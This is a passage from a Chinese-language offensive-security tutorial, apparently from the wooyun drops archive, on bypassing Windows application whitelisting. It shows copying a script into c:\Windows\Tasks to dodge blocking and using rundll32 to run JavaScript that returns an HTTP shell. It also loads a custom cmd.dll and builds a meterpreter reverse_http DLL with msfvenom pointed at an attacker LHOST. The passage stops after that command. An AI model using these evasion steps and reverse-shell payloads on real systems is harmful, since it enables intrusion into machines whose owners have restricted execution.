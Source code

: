 ![Alt text](http://drops.javaweb.org/uploads/images/449b642254e0c1094fbbf9a7a6ac62b78e765fc1.jpg)

执行后会自动扫描出可利用的路径

比如选择路径：`c:\Windows\Tasks`

正常执行calc.js会被拦截

但是`copy calc.js c:\Windows\Tasks`后

再执行`c:\Windows\Tasks\calc.js`，可以绕过拦截

如图

![Alt text](http://drops.javaweb.org/uploads/images/35d6296b0ddf6007733f0e782176b5925eaccb6a.jpg)

### 6、rundll32

**（1）执行JavaScript**

**a、**直接弹回一个Http shell

（可参照[http://drops.wooyun.org/tips/11764](http://drops.wooyun.org/tips/11764)）

但无法绕过对执行exe和脚本的拦截

**b、**利用JavaScript执行powershell命令返回HTTP shell

![Alt text](http://drops.javaweb.org/uploads/images/c3d6bba2b9c9c8da30810d71b5514dce17819f0d.jpg)

**（2）加载第三方dll**

**a、**自己编写的dll

参考资料：  
[http://blog.didierstevens.com/2010/02/04/cmd-dll/](http://blog.didierstevens.com/2010/02/04/cmd-dll/)

按照dll的格式，自己编写并生成dll上传

执行

```
rundll32.exe cmd.dll,Control_RunDLL

```

弹出一个cmd

如图

![Alt text](http://drops.javaweb.org/uploads/images/68f48814d41d35f72980780173cbdf85c60452e3.jpg)

**b、**反弹meterpreter

kali下：

```
msfvenom -p windows/meterpreter/reverse_http -f dll LHOST=192.168.174.133 LPORT=8080>./a.dll

```
